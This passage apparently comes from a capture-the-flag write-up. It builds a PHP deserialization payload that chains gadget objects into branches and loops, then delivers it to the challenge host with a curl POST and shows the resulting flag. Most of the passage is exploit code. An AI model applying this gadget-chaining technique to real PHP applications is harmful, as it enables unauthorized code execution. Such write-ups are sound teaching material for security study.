// Note we need to first push (and later pop) a 0 for the branch to peek at!
// However, done no longer reliably returns a 0 since we are in the running loop!
// We can instead get a falsy value (which will work with 0) by running isEmpty from the stack. 
$check_done_payload = makeImporterSerial(makeMazeSerial(), new GlobalStack, "isEmpty");
$check_done_payload = makeImporterSerial($check_done_payload, new GlobalStack, "push");
$check_done_payload = makeImporterSerial($check_done_payload, new thirdToken, "done");

// Due to the way @serialize works, we need to create the branches before we call the branching function

// For the failure branch, we just need to exit, so pass a safe payload and callback
$failure_done_payload = makeImporterSerial(makeMazeSerial(), new Defaults, "ok");

// Now, the success branch (note we pass Maze as a safe payload to start!)
// Success here means done() returned 0, so we need call either call0 or call1
// This means we need another branch! Currently the stack is:
// 0    <---- used to compare with done
// 0/1  <---- the value of $tokenExpected
// 0    <---- the initial 0 we pushed on the stack
// So, we need to pop off the 0, then pop off $tokenExpected to pass to the branch
$success_done_payload = makeImporterSerial(makeMazeSerial(), new GlobalStack, "pop");
$success_done_payload = makeImporterSerial($success_done_payload, new GlobalStack, "pop");

// Due to the way @serialize works, we need to create the branches before we call the branching function

// The failure/success branch are the same, except they call different functions
// Success means $tokenExpected == 0, so call0 in that case. Failure is call1.
$call0_payload = makeImporterSerial(makeMazeSerial(), new thirdToken, "call0");
$call1_payload = makeImporterSerial(makeMazeSerial(), new thirdToken, "call1");

// Push the returned value to the stack for the next run
$call0_payload = makeImporterSerial($call0_payload, new GlobalStack, "push");
$call1_payload = makeImporterSerial($call1_payload, new GlobalStack, "push");

//Call the import function just like before to restart the loop
$call0_payload = makeImporterSerial($call0_payload, new Defaults, "ok");
$call0_payload = makeImporterSerial($call0_payload, new Post, "import");
$call1_payload = makeImporterSerial($call1_payload, new Defaults, "ok");
$call1_payload = makeImporterSerial($call1_payload, new Post, "import");

// Now we need to link up the success/failure branches with the branch! First, the call0/call1 branch

// The branch continues off $success_done_payload, then branches to call0 or call1 
$success_done_payload = makeBranchSerial($success_done_payload, $call0_payload, $call1_payload);

// The first "done" branch continues off $check_done_payload
$check_done_payload = makeBranchSerial($check_done_payload, $success_done_payload, $failure_done_payload);

// $check_done_payload now contains the full branching payload for import!
// Output it

echo "#f3f3cfff:     $payload\n\n\n";
file_put_contents("#f3f3cfff.txt", $check_done_payload);
```

Now we just need to run our exploit like before! Make sure to start the `FTP` server if you stopped it, delete the old `log.txt` file if present, and then run the payload using the new `curl` command below. Just like before, our solution script provides the payloads in text files.

```bash
curl -X POST --data-urlencode import@import.txt --data-urlencode "#f3f3cfff"@"#f3f3cfff.txt" -H "Cookie: debug=value" http://mazesolver.pccc/
```



In this case, the token is `PCCC{Branching_n_looping_WB_6582}`.